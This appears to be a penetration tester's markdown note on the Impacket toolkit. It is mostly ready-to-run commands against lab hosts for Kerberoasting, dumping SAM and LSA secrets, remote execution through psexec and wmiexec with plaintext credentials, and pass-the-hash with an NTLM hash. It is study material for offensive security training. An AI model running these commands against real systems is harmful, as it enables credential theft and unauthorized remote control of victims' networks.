 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

[Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

## Installation

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Usage
### Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

### Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```shell-session
locate secretsdump 
```

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Access with Credentials


`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

### SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system

#### Create SMB Server 

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### SamRDump

```shell-session
samrdump.py 10.129.14.128
```

### RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

### SQL

[impacket/examples/mssqlclient.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

#### MSSQL

```shell-session
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

### WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

## Pass the Hash

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)